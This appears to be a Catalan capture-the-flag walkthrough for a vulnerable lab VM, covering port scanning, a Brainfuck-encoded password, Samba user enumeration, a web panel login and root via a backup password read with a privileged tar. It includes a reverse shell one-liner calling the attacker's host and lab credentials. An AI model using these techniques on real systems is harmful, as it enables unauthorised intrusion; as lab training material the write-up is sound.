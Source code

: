 Els ports oberts de la víctima són els següents:

![image](https://github.com/user-attachments/assets/30a153d1-6617-4aa4-82c0-3e72016c9551)

Una captura de pantalla de cada un dels tres URLs que hi ha.

http://192.168.1.77:20000/ si anem a l’https tenim una pàgina de login.

![image](https://github.com/user-attachments/assets/79829180-fbe4-457d-ba41-3d0c76f3254b)

![image](https://github.com/user-attachments/assets/bb183973-dd32-4143-a334-fbd834266e06)


El mateix amb la del port 10000:

![image](https://github.com/user-attachments/assets/a54fa588-d23a-4f53-aa96-3da0fc2f9c83)

![image](https://github.com/user-attachments/assets/e3f16b70-5f64-42a5-8da9-ea048541fe81)


http://192.168.1.57:80 

![image](https://github.com/user-attachments/assets/bfb5cd7a-b6fa-4c24-8c2a-bfebc677a179)


A més a més he trobat multitud de directoris:

![image](https://github.com/user-attachments/assets/15317a88-2bf0-4116-8dfb-6fb6a4cda3b9)


A la web del port 80 hi ha una contrasenya codificada. Per descodificar-la ens anirà bé la
web “brainfuck”

Mirant el codi font de la pàgina /index.html he trobat això:

![image](https://github.com/user-attachments/assets/4535f924-94b2-4449-ab95-889ad434c6d9)


Ara ho descodificaré amb brainfuck:

![image](https://github.com/user-attachments/assets/7c69beaf-38c3-4356-99da-e9230ae74376)

Hi ha la següent password: ``.2uqPEfj3D<P'a-3``

Ara ja tenim la contrasenya, ens falta l'usuari. Revisem el resultat de l’nmap que hem fet
inicialment, veiem que té els ports 139 i 145 oberts amb el servei Samba escoltant. Hi
ha l’eina enum4linux per enumerar informació d’aquest servei. 

L’usuari que he trobat és el següent:

![image](https://github.com/user-attachments/assets/a7c788d4-f85a-4631-b614-8822a589574b)

![image](https://github.com/user-attachments/assets/58624d4b-7ebd-4013-abc4-78ca037c8314)



Un cop tenim l’usuari, fem un login:

He trobat que al port 20000 que és un dels que he provat dels trobats a nmap puc fer el login amb l’usuari i la contrasenya que he trobat:

![image](https://github.com/user-attachments/assets/e6014c79-9773-4fb6-b0fe-58feeb97998e)

![image](https://github.com/user-attachments/assets/0b2b8edc-f2fa-4b1f-a7ba-894188d2ed0d)


En aquesta interfície d’usuari cerquem un terminal de consola (n’hi ha més d’un) i el posem en
marxa, així serem l'usuari cyber:

L’usuari cyber:

![image](https://github.com/user-attachments/assets/3c6a5548-d709-4ab6-820d-93d2254eb773)

Escalada de privilegis:

Executem una shell inversa cap a la nostra màquina Kali. Amb la comanda:

La comanda següent: ``sh -i >& /dev/udp/192.168.1.67/4444 0>&1``

![image](https://github.com/user-attachments/assets/498c79d8-daa4-4bf8-ac1c-5aa2cd93b4fc)


Després de cercar pels directoris de la màquina víctima, hem trobat dues coses potencialment interessants:

● El fitxer /home/…../tar
■ Qui té permisos per executar-lo?

El propietari té permisos d’execució (x).
El grup té permisos d’xecució (x)
Altres usuaris també tenen permisos d’execució (x)

Això significa que el propietari (que és l'usuari "root" en aquest cas) té permisos complets (lectura, escriptura i execució), mentre que el grup i altres usuaris tenen permisos només per llegir i executar el fitxer.

![image](https://github.com/user-attachments/assets/a027e3c3-4a61-4ba2-aef3-a74664215b6f)

● El directori /var/backups
■ Quin fitxer hi ha dins? Qui hi té permisos de lectura i escriptura?

Els fitxers següents:

apt.extended_states.0
.old_pass.bak

![image](https://github.com/user-attachments/assets/b7f53c47-958a-45b8-8ed0-535e353fc9c5)

-"apt.extended_states.0": Té permisos de lectura per a tots els usuaris (propetari, grup i altres), però no té permisos d'escriptura per a ningú excepte el propietari.

-".old_pass.bak": Només el propietari té permisos de lectura i escriptura. El propietari té permisos de lectura i escriptura, mentre que ni el grup ni altres usuaris tenen cap permís.

Ara utilitzem l’eina tar del directori /home/…… per obtenir el contingut del fitxer .old_pass.bak
Quina contrasenya conté?

Executo la següent comanda: ``./tar -cf old_pass /var/backups/.old_pass.bak``

![image](https://github.com/user-attachments/assets/67dc8e44-8b44-4ab5-9e42-412ba6cffe58)

![image](https://github.com/user-attachments/assets/6c914c36-5647-4527-b93c-6f94dbbec6c6)


La contrasenya: ``Ts&4&YurgtRX(=~h``

I ara amb això escalem a root.Per mostra una captura de pantalla dient quin usuari som.

Ara executem la comanda su root ja que sudo su no va, posem la contrasenya que hem trobat i ja som root:

![image](https://github.com/user-attachments/assets/3565cea2-3ed0-4ec1-aaeb-5028705cdf28)

